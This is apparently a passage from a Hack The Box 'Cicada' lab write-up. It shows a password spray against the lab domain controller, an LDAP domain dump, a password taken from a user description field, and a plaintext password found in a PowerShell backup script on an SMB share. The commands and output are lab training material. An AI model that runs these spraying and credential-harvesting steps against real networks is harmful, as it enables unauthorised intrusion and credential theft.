 Password Spray:
```
┌─[✗]─[rar@parrot]─[~/HTB/Cicada]
└──╼ $nxc smb cicada.htb -u users -p 'Cicada$M6Corpb*@Lp#nZp!8'
SMB         10.129.174.158  445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.129.174.158  445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.174.158  445    CICADA-DC        [-] cicada.htb\guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.129.174.158  445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE
SMB         10.129.174.158  445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```

## LDAP
```
michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8
```

a good way after containing correct credentials is to dump information from ldap which acts as dictionary
for active directory.

Ldapdomaindump:
```
┌─[✗]─[rar@parrot]─[~/HTB/Cicada]
└──╼ $ldapdomaindump -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' cicada.htb
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

in `domain_users.html` user `david.orelious` has the password stored in the description:
```
SID: 1108
Description: Just in case I forget my password is aRt$Lp#7t*VQ!3
```

SMB DEV Share access using david's user:
```
┌─[✗]─[rar@parrot]─[~/HTB/Cicada]
└──╼ $smbclient //cicada.htb/DEV -U david.orelious
Password for [WORKGROUP\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 08:31:39 2024
  ..                                  D        0  Thu Mar 14 08:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 13:28:22 2024
```

`Backup_script.ps1`:
```powershell
$sourceDirectory = "C:\smb"
$destinationDirectory = "D:\Backup"

$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
$credentials = New-Object System.Management.Automation.PSCredential($username, $password)
$dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
$backupFileName = "smb_backup_$dateStamp.zip"
$backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"
```